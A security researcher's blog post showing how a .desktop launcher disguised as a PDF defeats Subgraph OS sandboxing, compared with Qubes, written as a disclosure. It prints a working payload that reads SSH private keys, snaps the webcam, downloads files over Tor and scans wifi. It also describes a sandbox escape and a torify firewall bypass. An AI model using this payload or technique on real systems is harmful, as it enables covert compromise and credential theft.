



Breaking the Security Model of Subgraph OS
I recently traveled to Amsterdam to attend a meeting with Tor Project staff, volunteers, and other members of the wider Tor community. Before trips like this, I prepare a separate travel computer, only bringing with me data and credentials that I might need during my trip. My primary laptop runs Qubes, but this time I decided to install Subgraph OS on my travel laptop. I had only briefly messed with it before, and there’s no better way to learn about a new operating system than by forcing yourself to actually use it for a few days.
Subgraph OS is an “adversary resistant computing platform.” It’s similar to Tails in that it’s based on Debian and all traffic is forced through Tor (that’s changing though: there’s now basic support for clearnet Chromium and OpenVPN). It uses a grsecurity Linux kernel, and many apps run in “oz sandboxes”, a homebrew sandbox solution that protects you even if an attacker manages to exploit a bug in one of these apps. Subgraph OS also includes the Subgraph Firewall, an application firewall similar to Little Snitch for macOS — something that’s pretty awesome, and hasn’t really existed in the Linux ecosystem before. Basically, it’s designed to be an easy-to-use Linux distro that’s extremely secure.
Joanna Rutkowska, the brains behind Qubes, was at the Tor meeting as well. We sat down together and started poking at Subgraph OS to see if we could break its security model, and we succeeded! After we discovered weaknesses, I polished them into a working exploit.
Subgraph publishes a user manual called the Subgraph OS Handbook. You can find the code for it on GitHub. I made a fake website with a link to download this git repository, compressed as a zip file. A realistic targeted attack would probably use different bait — perhaps an attacker would send a journalist some juicy documents — but the point is, the user downloads something from a website, or maybe from their email, and then double-clicks a document to open it. Subgraph OS, with its grsecurity Linux kernel and oz sandboxes, is supposed to prevent malicious documents from taking over your computer, but in this case it doesn’t.
I reported what we found to the Subgraph developers and offered to give them time to resolve the issues before I published this post. They said that none of what I reported was surprising, that Subgraph OS is still in alpha, and that they don’t recommend that people use it yet. But that’s funny, because their website doesn’t seem to include that warning — it describes a list of amazing security features, ending with, “Try the Subgraph OS Alpha today. You can install it on a computer, run it as a live-disk, or use it in a VM.”
They didn’t ask for more time, and they haven’t resolved the issues yet.
To be fair, Subgraph OS is still in alpha, and already it’s more secure by default than many other Linux distros. This same attack also works against Tails, Debian, Ubuntu, Fedora, Arch, etc. (not Qubes though).
How oz sandboxing works
Subgraph comes with sandboxes for 22 applications — things like Tor Browser, OnionShare, Evince (PDF reader), Eye of GNOME (image viewer), Icedove (email client), and VLC (media player). If you run a program that doesn’t have an oz sandbox (such as Nautilus, the built-in file manager, or anything that isn’t one of those 22 programs), then it runs unsandboxed, with access to all your user data.
If you open a malicious PDF that exploits a bug in Evince, the sandbox will limit what the attacker can do. It blocks internet access, so the attacker can’t phone home. It restricts what Linux system calls can be made to only what evince needs to work. It limits access to the filesystem. On a normal Linux computer, if an attacker hacks Evince, they can access all of the user’s data in their home directory (documents, email, PGP and SSH keys, etc.), but the Evince oz sandbox prevents the attacker from accessing any documents except the one that the user opened.
Oz sandboxes themselves seem pretty good at a glance. Though I did find some information leakage. I discovered that /etc is readable. So if you run ls /etc/NetworkManager/system-connections, you can see a list of the computer’s saved wifi networks, even within the sandbox. In oz sandboxes that allow internet access (like the Tor Browser one), this information could be sent back to the attacker — there’s likely other juicy data in there too. When I reported this, the Subgraph devs pointed me to this year-old github issue, showing that they’ve thought about it.
The problem with Subgraph OS’s sandbox approach
Oz sandboxes are similar to macOS app sandboxes — they lock down what specific apps can do so that if those apps get hacked, the attacker is hopefully stuck in the sandbox with very limited access. While this is great, it’s an incomplete solution to endpoint security.
For one thing, most of the programs you run in Subgraph aren’t sandboxed. Most of GNOME isn’t. Nautilus, the graphical file manager, isn’t, and neither is the terminal app. If an attacker can trick a user into running an unsandboxed script in either Nautilus (what my attack does) or in the terminal, it’s game over. If the user installs custom software that doesn’t have an oz profile, and an attacker exploits this software, it’s also game over.
An attacker that gets unsandboxed remote code execution in Subgraph OS has a lot of access. They can see, and exfiltrate, all of the user’s data: PGP keys, SSH keys, stored email, documents, password databases, and everything else. They can listen from the microphone and watch through the webcam. They can learn the network interface’s MAC address, and see nearby wifi access points and bluetooth devices, which can be used to deanonymize the user. They can install a persistent backdoor in your computer.
For another, there’s no way to compartmentalize different parts of your computer for different purposes like you can in Qubes. You can’t make a separate sandbox for working with some untrusted documents, or for keeping certain secrets extra secure, or for managing different anonymous identities online. All of your data in Subgraph OS, at some point, risks getting accessed by unsandboxed programs.
I won’t go into detail about how Qubes does it except to say that it’s a somewhat opposite approach. You have a thin, unsandboxed layer that has total control over your computer, and then everything else is run inside of sandboxes. Qubes also protects sandboxed apps from reading potentially sensitive data off of your clipboard (unless you want it to), and it protects your administrative domain from untrusted input coming from your network drivers and your USB stack. (It’s the only operating system that I’m aware of that, out-of-the-box, protects against BadUSB attacks.)
Hacking the Free Desktop with .desktop files
In the free desktop world, application launchers are .desktop files. Every GUI application on your Linux box has a desktop file, just check /usr/share/applications. If you’re creating a custom application launcher, inside the .desktop file you specify the name of the application, an icon, as well as what to run when you execute it.
If you open Nautilus and browse to a folder with a .desktop file in it, there are two ways it can get displayed.
- If the file isn’t executable, Nautilus doesn’t trust it and shows the full original filename, including the .desktop extension, and a default icon.
- If the file is executable, Nautilus trusts it and shows whatever name and icon is specified in the file. This is why the exploit I built was zipped up, so I could ensure that my malicious .desktop file is executable.
It’s important to note that this is a huge gaping security hole in Nautilus. All Linux users that use Nautilus (including everyone who uses GNOME, Unity, Cinnamon) are vulnerable to getting tricked this way. This bug was reported to Nautilus in January, and it has now been resolved (by, I believe, popping up a warning asking if you trust the source of the desktop launcher before executing it), but the fix won’t be released until Nautilus 3.24.
Debian Stretch ships 3.22.3; Fedora 25 ships 3.22.2; Ubuntu 16.10 ships 3.20.3; Ubuntu 17.04 ships 3.20.4. So it might be some time before this fix actually makes it into distros that people use. The Subgraph devs pointed me to this recent github issue, showing that they’ve thought about this issue too. They also said they’re planning on auditing the Nautilus source code.
The exploit I created is a file called sgos_handbook.pdf.desktop (though I could have named it malware.desktop and it would have looked the same in Nautilus). Here’s what’s inside of it. Note that the name is set to sgos_handbook.pdf, and the icon is gnome-mime-application-pdf which is the default icon for PDFs in Subgraph — these two things make it so you can’t tell that this isn’t a PDF when viewing it in Nautilus. Also, of course, note that it’s set to execute a malicious shell script when it’s run.
#!/usr/bin/env xdg-open
[Desktop Entry]
Encoding=UTF-8
Name=sgos_handbook.pdf
Exec=sh -c 'ROOT=$(dirname $(dirname $(find $HOME -type f -name sgos_handbook.pdf.desktop)) |head -n1); evince $ROOT/static/sgos_handbook.pdf; mkdir $HOME/.config/tools; cd $HOME/.config/tools; torify apt download fswebcam; dpkg-deb -xv `ls fswebcam_*.deb` .; ./usr/bin/fswebcam -r 640x480 $HOME/webcam-snapshot.jpg; torify wget https://static.wixstatic.com/media/6a4a49_4e03bc224328475ea2e20dddaf9d0fda~mv2_d_2121_1414_s_2.jpg -O $HOME/attacker-can-drop-files-from-the-internet.jpg; echo "ifconfig output:" >> $HOME/pwnlog.txt; /sbin/ifconfig >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; echo "tor exit node info:" >> $HOME/pwnlog.txt; torify curl https://ifconfig.co/json >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; echo "ssh public and secret keys:" >> $HOME/pwnlog.txt; cat $HOME/.ssh/id_rsa.pub >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; cat $HOME/.ssh/id_rsa >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; echo "nearby wifi:" >> $HOME/pwnlog.txt; /sbin/iwlist $INTERFACE scan >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; echo "saved wifi networks:" >> $HOME/pwnlog.txt; ls /etc/NetworkManager/system-connections >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt;'
Terminal=false
Type=Application
Icon=gnome-mime-application-pdf
Here’s a more human-readable, and commented, version of the payload:
#!/bin/sh
# Find the location of the extracted sgos_handbook folder
ROOT=$(dirname $(dirname $(find $HOME -type f -name sgos_handbook.pdf.desktop)) |head -n1);
# Open the actual PDF in an oz sandbox
evince $ROOT/static/sgos_handbook.pdf;
# Take a snapshot from the webcam
mkdir $HOME/.config/tools;
cd $HOME/.config/tools;
torify apt download fswebcam;
dpkg-deb -xv `ls fswebcam_*.deb` .;
./usr/bin/fswebcam -r 640x480 $HOME/webcam-snapshot.jpg;
# Download an image to the home directory
torify wget https://static.wixstatic.com/media/6a4a49_4e03bc224328475ea2e20dddaf9d0fda~mv2_d_2121_1414_s_2.jpg -O $HOME/attacker-can-drop-files-from-the-internet.jpg;
# Log the ifconfig output, which includes the MAC address
echo "ifconfig output:" >> $HOME/pwnlog.txt;
/sbin/ifconfig >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
# Log information about the current Tor exit node
echo "tor exit node info:" >> $HOME/pwnlog.txt;
torify curl https://ifconfig.co/json >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
# Log SSH public and secret key
echo "ssh public and secret keys:" >> $HOME/pwnlog.txt;
cat $HOME/.ssh/id_rsa.pub >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
cat $HOME/.ssh/id_rsa >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
# Log scan of nearby wifi networks
echo "nearby wifi:" >> $HOME/pwnlog.txt;
/sbin/iwlist $INTERFACE scan >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
# Log list of saved wifi networks
echo "saved wifi networks:" >> $HOME/pwnlog.txt;
ls /etc/NetworkManager/system-connections >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
Using .desktop Files to Break Out of a Sandbox
When you open a PDF in Subgraph OS, it opens an Evince oz sandbox that only has access to that one document. However, some sandboxes give you write access to an entire folder. For example, the Tor Browser sandbox lets you read and write to ~/Downloads/TorBrowser, and the LibreOffice sandbox lets you read and write to ~/Documents/LibreOffice.
If you can get sandboxed remote code execution in one of these sandboxes, like by using a Tor Browser or LibreOffice exploit, you can then potentially escalate privileges to get unsandboxed remote code execution by modifying files in those directories.
For example, lets say the user downloads a malicious Word document and double clicks it in Nautilus. Subgraph OS will open a LibreOffice oz sandbox and give it access to that document (let’s say, ~/Downloads/TorBrowser/resume.docx). Let’s also assume that the user has some legitimate documents, like maybe ~/Documents/LibreOffice/draft-proposal.odt.
The payload of the malicious resume.docx could rename draft-proposal.odt to something else, like maybe make it a hidden file called .DS_Store, and then create a new file, draft-proposal.odt.desktop and make it executable. Later, when the user double-clicks what looks like draft-proposal.odt in Nautilus, the attacker escapes the sandbox. (And of course, the payload can even clean up after itself — move .DS_Store back to draft-proprosal.odt and delete draft-proposal.odt.desktop, after installing a backdoor of course.)
Bypassing the Subgraph Firewall
The Subgraph Firewall is pretty cool. It’s an application firewall that lets you approve or deny network connections on a process-by-process basis. As I showed in the video, when you open the GNOME Calculator app, it tries making network connections (to look up currency conversation rates), and but the firewall intercepts these and lets you deny them.
However, it’s trivial to bypass because it allows all Tor traffic through, no questions asked. For example, if you open a terminal and run curl example.com, the firewall intercepts this connection and gives you the option to deny it:

But if you run torify curl example.com, it just works. If you check the payload above, you’ll see that all of the internet requests I made use torify to bypass the firewall.
When I pointed this out to the Subgraph devs, they told me that the Subgraph Firewall wasn’t designed to prevent malware from making network connections, but rather just to prevent incidental privacy leaks (such as with the calculator). So they didn’t consider this a valid security issue.
When they show off the Subgraph Firewall on their website, they neglected to explain this limitation:

However, they do mention it in the Subgraph OS Handbook, but with questionable use of the word “sophisticated”:
Application firewalls are useful for monitoring unexpected connections from applications. For example, some applications may phone home to the vendor’s website. Often this activity is legitimate (non-malicious) but it still may violate the user’s privacy or expectations of how the software operates. Subgraph Firewall gives users the choice to allow or deny these connections.
Malicious code may also phone home to a website or server that is operated by the hacker or malicious code author. Subgraph Firewall can also alert the user of these connections so that they can be denied.
Application firewalls cannot prevent all malicious code from connecting to the Internet. Sophisticated malicious code can subvert the allowed connections to bypass the firewall. However, the firewall may alert the user of connection attempts by less sophisticated malicious code
They did say that they will probably expand the scope and purpose of the firewall in the future — and they pointed to an incomplete branch of their firewall code that would allow intercepting Tor traffic to let the user deny it, some day when it’s done.
How this attack would affect Qubes
Qubes is flexible, so how much the attack succeeds depends on the user’s choices.
In the worst case, the exploit would hack the sandbox (which is called an AppVM, in Qubes lingo) that the user opens it in. This could be their “personal” AppVM full of private data, or a “browser” AppVM that has nothing but a web browser profile, or it could be a Whonix AppVM, where all internet traffic is forced to go over Tor. In any of these cases, the attacker will be stuck in a sandbox and won’t be able to compromise other AppVMs. The attacker also won’t be able to query the hardware — they won’t be able to learn the network interface’s MAC address, or see nearby wifi access points or bluetooth devices, or anything like that. They won’t be able to access the microphone or webcam.
However, some Qubes users are more careful than that. If the user right-clicks on the fake PDF .desktop and chooses “Open in DisposableVM”, the hack will fail. DisposableVMs are basically one-time-use sandboxes that work like this: a new sandbox gets created, the file gets copied into it (in this case, the malicious PDF .desktop file), the file gets opened, and when it’s done running, the entire sandbox is deleted. I just tested this out — for me, sgos_handbook.pdf.desktop actually just opens in Atom, a text editor I have installed.

Even if the payload executes — like, for example, if this were actually a malicious PDF that exploits Evince instead of a .desktop file, it wouldn’t have access to any user data. If the DisposableVM has internet access (which depends on the user’s settings), the payload might be able to phone home, but it won’t be able to tell the attacker anything besides “I’m stuck in a DisposableVM.” It certainly couldn’t take a snapshot from my webcam, record from my mic, or install any sort of persistent malware. And as soon the program closes, the whole sandbox gets deleted.
Final thoughts
Much of the Qubes vs. Subgraph OS debate has focused on the relative security of the two different types of sandboxing: the Xen hypervisor vs. grsecurity/Linux containers. Which is “more secure” is complicated and subjective.
But what gets lost in the debate is the most important difference between the operating systems: Qubes provides security by compartmentalization, while Subgraph OS provides OS hardening and app sandboxes. As this exploit hopefully demonstrates, these are not the same thing.
It’s exciting to see an attempt at a security-hardened Linux distro, but it’s no substitute for the compartmentalization that’s made possible by Qubes.
==
Update April 12, 2017
Subgraph pointed out a typo in this blog post and stated that this attack is possible because of an outstanding vulnerability in Nautilus. One Subgraph developer claimed that this isn’t a bug in Subgraph OS, said that Qubes was just as vulnerable (it’s not), and said, “Do I have to make a video too?” (please do!).
But then last night, Subgraph fixed this not-a-bug in Subgraph OS! Users can upgrade to it.

I tested it out, and it works great (I can’t wait until this patch hits Debian and Fedora, too). I made this little animated GIF to show what sgos_handbook.pdf.desktop now looks like in Nautilus. When it’s executable it still displays it as a .desktop file, when you open it it displays a warning, and only if you click through the warning does it make it appear like a PDF:

This is excellent and fixes this specific issue, but it doesn’t fix the more fundamental problem that Subgraph OS has in trying to be an “adversary resistant OS”: Most software still doesn’t run inside of a sandbox. A future bug in Nautilus or other unsandboxed app (or tricking the target into installing a malicious pip package you control, etc.) will still allow the attacker to take over the computer.